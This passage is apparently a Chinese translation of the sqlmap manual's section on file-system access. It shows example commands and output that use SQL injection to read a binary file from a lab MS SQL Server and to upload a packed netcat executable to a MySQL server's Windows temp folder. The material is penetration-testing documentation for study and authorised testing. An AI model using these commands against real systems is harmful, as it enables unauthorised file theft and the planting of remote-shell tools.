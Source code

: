 ## 访问文件系统

### 读取数据库服务器文件系统文件

选项：`--file-read`

当后端 DBMS 为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够直接读取底层文件系统中文件的内容。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 Microsoft SQL Server 2005 为目标，获取二进制文件的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### 向数据库服务器的文件系统上传文件

选项：`--file-write` 和 `--file-dest`

当后端 DBMS 为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够向数据库服务器文件系统上传一个本地文件。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 MySQL 为目标，向服务器提交一个经过 UPX 压缩的二进制文件的例子：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```